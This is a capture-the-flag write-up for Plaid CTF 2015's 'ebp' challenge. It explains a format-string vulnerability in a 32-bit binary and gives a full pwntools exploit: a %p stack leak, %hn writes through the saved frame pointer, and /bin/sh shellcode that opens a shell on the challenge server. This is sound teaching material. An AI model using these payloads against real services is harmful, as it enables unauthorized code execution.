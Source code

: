 #Plaid CTF 2015 Writeup:
##### Pwnable: 160 points 
##### Name: ebp
##### Description:
*nc 52.6.64.173 4545* 

*Download: %p%o%o%p.*

Running file on ebp:
>```bash
> $ file ebp
> ebp: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=4e8094f9986968cd856db5093810badbb0749fde, not stripped
>```

Checksec:
>```bash
>gdb-peda$ checksec
>CANARY    : disabled
>FORTIFY   : disabled
>NX        : disabled
>PIE       : disabled
>RELRO     : Partial
>```
A 32 binary and it seems like the NX flag is disabled which means we can execute shellcode

Analyzing the assembly the vulnerbility lies within the code for *make_response*:
>```assembly
>gdb-peda$ disas make_response
>Dump of assembler code for function make_response:
>   0x080484fd <+0>:	push   ebp
>   0x080484fe <+1>:	mov    ebp,esp
>   0x08048500 <+3>:	sub    esp,0x18
>   0x08048503 <+6>:	mov    DWORD PTR [esp+0x8],0x804a080
>   0x0804850b <+14>:	mov    DWORD PTR [esp+0x4],0x400
>   0x08048513 <+22>:	mov    DWORD PTR [esp],0x804a480
>   0x0804851a <+29>:	call   0x80483f0 <snprintf@plt>
>   0x0804851f <+34>:	leave  
>   0x08048520 <+35>:	ret    
>End of assembler dump.
>```

The C code for that looks something like this:
>```C
> char input[1024];  //&input is 0x804a080
> char output[1024]; //&output is 0x804a480
> int make_response(){
>   return snprintf(output,0x400,input);
>}
>```

where input and output are global variables

So it seems that this is a case of a format string vulnerbility. 

Which makes sense since the description hints at %p %o %o %p

To be safe we assume there is aslr enabled on the server. We also need to utilize the format string to gain an arbitrary write and gain control flow of the program.

#####1. ASLR
  A way to defeat aslr is to use the format string vulnerbility to leak an address of the stack out to us.
  We can do so by using the *%p* format 
  
#####2. Control flow
  Since a format string vulnerbility also gives us the ability to write to the stack with the *%n* format we can utilize this to write to an address on the stack. If the buffers where our input was stored on the stack we can simply wrap around the stack into our buffers and use our input as addresses, however since our buffers are global buffers they are instead stored on the bss segment of the program.
  To remedy this we first use part 1 and leak out a stack address, then we use a saved frame pointer (ebp) to write to somewhere lower on the stack. What we want on the stack is something that we actually want to write to, the *return address* location.
>```python
>r.send('%4$p\n') 
>
>addr = int(r.recv(0xa),16)+(OFFSET) #offset is the offset to the return address
>log.info('stack: %x'%addr)
>addr = addr&0xFFFF #we take only last 4 bytes so that we can make use the %hn format
>
>r.send('%.{0!s}u%4$hn\n'.format(addr)) ##write those bytes
>```
So now we have a pointer to the location of the return address, so we simply need to wrap around to that pointer and write to it. 
>>>```python
>lower = bufaddr&0xffff
>r.send(shellcode+'%.'+str(lower-len(shellcode))+'u%12$hn\n')
>```

Putting it together:

```python
from pwn import *

context.log_level = 'info'
r = remote('52.6.64.173',4545)

bufaddr = 0x804a080
OFFSET = 4 ##Offset to the return address

shellcode ="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

r.send('%4$p\n') 

addr = int(r.recv(0xa),16)+(OFFSET)
log.info('stack: %x'%addr)
addr = addr&0xFFFF 

r.send('%.{0!s}u%4$hn\n'.format(addr))
lower = bufaddr&0xffff
r.send(shellcode+'%.'+str(lower-len(shellcode))+'u%12$hn\n')

r.interactive()
```
flag is *who_needs_stack_control_anyway?*
> more information about format strings: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
